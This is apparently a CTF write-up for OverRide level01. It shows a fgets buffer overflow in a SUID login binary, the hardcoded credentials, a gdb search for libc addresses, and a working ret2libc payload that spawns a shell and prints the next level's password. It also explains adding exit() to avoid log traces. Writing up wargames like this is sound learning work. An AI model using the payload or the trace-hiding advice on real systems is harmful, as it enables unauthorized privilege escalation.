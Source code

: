 # Level 1

## Vulnerability



## Context

We find a binary with owner ```level01``` and SUID.
```
level01@OverRide:~$ ls -l
-rwsr-s---+ 1 level02 users 7360 Sep 10  2016 level01
```

When run, we see it prompts for a username (and probably later, a password).
```
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: POTUS
verifying username....

nope, incorrect username...
```

## Solution

### main() overview
Let's take a deeper look at the program.
See [dissasembly notes](https://github.com/anyashuka/Override/blob/main/level01/Ressources/disassembly_notes.md) for detailed gdb assembly breakdown.

First ```main()``` prompts for a username and password, reading from stdin with ```fgets()```, and then calling ```verify_user_name()``` and ```verify_user_pass()```.

In each case, user input for username and password is compared with a hard value in memory and jumps to exit if not equal. 

In ```verify_user_name()```, we see that the username must be "dat_wil".

In ```verify_user_pass()```, we see that the password must be "admin".

However, when we try these values the program still quits. 
```
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
admin
nope, incorrect password...
```

### Exploit

First off, we can identify a vulnerability with ```fgets()``` to trigger a buffer overflow. 

Using our trusty [pattern generator and EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), we crash the program and find we can overwrite the EIP at offset 80.
```
(gdb) r
Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

In the previous project, [Rainfall](https://github.com/anyashuka/Rainfall), our strategy was to copy shellcode to the stack and jump to it (a classic stack-based buffer overflow). 

We've found a more elegant solution to use here: a ret2libc ("return-to-libc") attack, which will overwrite the EIP return address with a particular libc function address directly. 

In this case, we''re going to overwrite the EIP with the address of ```system```, "/bin/sh", and ```exit()```.
Let's find those addresses. 
```
(gdb) b *main
Breakpoint 1 at 0x80484d0

(gdb) r
Starting program: /home/users/level01/level01

Breakpoint 1, 0x080484d0 in main ()

(gdb) print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>

(gdb) print exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>

(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:	 "/bin/sh"
```
Ok, here are our addresses:
- ```system()``` is at 0xf7e6aed0
- ```exit()``` is at 0xf7e5eb70
- "/bin/sh" is at 0xf7f897ec
Note: we will flip these for little endian!

Why bother add the ```exit()```? Because if we don't, then the shell will segfault upon exit – which will be recorded in the dmesg logs and visible to any system admin who looks... So basically, to erase our footsteps! 

### Build exploit

Let's build our attack payload:

[ 80 x "A" ] [ address of system ] [ address of exit ] [ address of "/bin/sh" ]

```
level01@OverRide:~$ (python -c 'print "dat_wil\n" + "A"*80 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"' ; cat -) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
``` 

## Recreate Exploited Binary

As user ```level02```, in ```/tmp```, create and compile ```level01_source.c```
```
level02@OverRide:/tmp$ gcc level01_source.c -o level01_source
```

Edit permissions including suid, then move the binary to home directory.
```
level02@OverRide:/tmp$ chmod u+s level01_source; chmod +wx ~; mv level01_source ~
```

Exit back to user ```level01```, then launch the source with the ret2libc exploit (with new addresses for system, /bin/sh, and exit).
```
level01@OverRide:~$ (python -c 'print "dat_wil\n" + "A"*80 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"' ; cat -) | ./level01_source
...
0x48336750664b394d0x354a35686e4758730x377a7143574e67580x45414a35617339510x756e505234376848 does not have access!
```
